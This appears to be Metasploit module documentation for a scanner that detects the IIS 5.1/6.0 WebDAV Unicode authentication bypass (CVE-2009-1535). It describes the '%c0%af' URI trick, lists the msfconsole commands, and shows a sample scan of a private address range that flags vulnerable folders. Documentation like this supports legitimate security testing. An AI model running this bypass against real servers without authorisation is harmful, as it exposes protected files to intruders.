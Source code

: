## Description

The WebDAV extension in Microsoft Internet Information Services (IIS) 5.1 and 6.0 allows remote attackers to bypass URI-based protection mechanisms, and list folders or read, create, or modify files, via a `%c0%af` (Unicode / character) at an arbitrary position in the URI, as demonstrated by inserting `%c0%af` into a `/protected/` initial pathname component to bypass the password protection on the `protected` folder, aka "IIS 5.1 and 6.0 WebDAV Authentication Bypass Vulnerability," a different vulnerability than CVE-2009-1122. More info about this vulnerability can be found in [CVE-2009-1535](http://cve.mitre.org/cgi-bin/cvename.cgi?name=2009-1535).

## Verification Steps

1. Do: ```use auxiliary/scanner/http/dir_webdav_unicode_bypass```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set THREADS [number of threads]```
4. Do: ```run```

## Scenarios

```
msf > use auxiliary/scanner/http/dir_webdav_unicode_bypass
msf auxiliary(dir_webdav_unicode_bypass) > set RHOSTS 192.168.1.200-254
RHOSTS => 192.168.1.200-254
msf auxiliary(dir_webdav_unicode_bypass) > set THREADS 20
THREADS => 20
msf auxiliary(dir_webdav_unicode_bypass) > run

[*] Using code '404' as not found.
[*] Using code '404' as not found.
[*] Using code '404' as not found.
[*] Found protected folder http://192.168.1.211:80/admin/ 401 (192.168.1.211)
[*] 	Testing for unicode bypass in IIS6 with WebDAV enabled using PROPFIND request.
[*] Found protected folder http://192.168.1.223:80/phpmyadmin/ 401 (192.168.1.223)
[*] 	Testing for unicode bypass in IIS6 with WebDAV enabled using PROPFIND request.
[*] Found protected folder http://192.168.1.223:80/security/ 401 (192.168.1.223)
[*] 	Testing for unicode bypass in IIS6 with WebDAV enabled using PROPFIND request.
[*] Found protected folder http://192.168.1.204:80/printers/ 401 (192.168.1.204)
[*] 	Testing for unicode bypass in IIS6 with WebDAV enabled using PROPFIND request.
[*] 	Found vulnerable WebDAV Unicode bypass target http://192.168.1.204:80/%c0%afprinters/ 207 (192.168.1.204)
[*] Found protected folder http://192.168.1.203:80/printers/ 401 (192.168.1.203)
[*] 	Testing for unicode bypass in IIS6 with WebDAV enabled using PROPFIND request.
[*] 	Found vulnerable WebDAV Unicode bypass target http://192.168.1.203:80/%c0%afprinters/ 207 (192.168.1.203)
...snip...
[*] Scanned 55 of 55 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(dir_webdav_unicode_bypass) >
```
